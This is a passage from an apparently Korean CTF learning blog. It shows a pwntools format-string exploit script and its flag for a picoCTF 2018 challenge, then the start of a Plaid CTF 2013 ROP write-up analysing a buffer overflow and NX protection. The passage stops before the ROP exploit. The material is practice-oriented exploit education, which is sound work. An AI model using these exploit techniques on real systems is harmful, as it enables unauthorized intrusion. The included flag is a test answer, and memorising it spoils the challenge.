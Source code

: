 ```python
from pwn import *

p = remote("2018shell2.picoctf.com", 52918)
e = ELF("./auth")
auth = e.sym['authenticated']

payload = fmtstr_payload(11, {auth:1})
p.sendline(payload)
p.interactive()
```

> FLAG : picoCTF{y0u_4r3_n0w_aUtH3nt1c4t3d_d29a706d}

---
## PWN D+2 (2021.01.26)<br>

---
Plaid CTF 2013 - Challenge : ropasaurusrex 

<strong>이번에 풀어 볼 문제는 Plaid CTF 2013에서 나온 32 bit ROP 문제입니다. 32 bit ROP를 이해하고, 풀어보니 포너블 뉴비분들은 재밌게 풀 수 있을 거 같습니다. 일단 IDA를 이용해서 바이너리를 코드로 변환 시켜 주겠습니다.</strong><br>

```c
ssize_t __cdecl main()
{
  sub_80483F4();
  return write(1, "WIN\n", 4u);
}
```
<strong>main() 함수를 보면 sub_80483F4() 함수를 호출하고, `WIN`을 출력하고 끝나는 것을 볼 수 있습니다.</strong><br>

```c
ssize_t sub_80483F4()
{
  char buf; // [esp+10h] [ebp-88h]

  return read(0, &buf, 0x100u);
}
```
<strong>sub_80483F4() 함수를 보면 buf라는 변수를 정의하고, read 함수를 이용해서 buf의 입력 받고 있습니다. 하지만 buf의 크기는 88h인데 read() 함수에세ㅓ 100h 만큼 입력 받고 있기 때문에 BOF 취약점이 발생합니다.</strong><br>

```
pocas@pocas-VirtualBox:~/pwn/Plaid CTF 2013$ ./ropasaurusrex 
AAAA
WIN
pocas@pocas-VirtualBox:~/pwn/Plaid CTF 2013$ 
```
<strong>위 결과는 바이너리 파일을 실행시킨 것 입니다. 입력을 받고, `WIN`을 출력함과 동시에 종료되는 것을 볼 수 있습니다.</strong><br>

```
pocas@pocas-VirtualBox:~/pwn/Plaid CTF 2013$ checksec --file=ropasaurusrex
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
No RELRO        No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   No Symbols	  No	0		1		ropasaurusrex
pocas@pocas-VirtualBox:~/pwn/Plaid CTF 2013$ 
```
<strong>위 결과는 checksec를 이용해 보호 기법을 확인한 결과인데, 보면 NX Bit가 활성화 되어 있는 것을 볼 수 있습니다. NX Bit가 활성화 되어 있기 때문에 BOF 취약점을 이용해서 buf에 쉘코드를 삽입하고, ret에 buf를 준다고해도 실행 권한이 없어 실행되지 않을 것 입니다. 하지만 ROP를 이용해서 NX Bit를 우회해 익스를 진행할 수 있습니다.</strong><br>

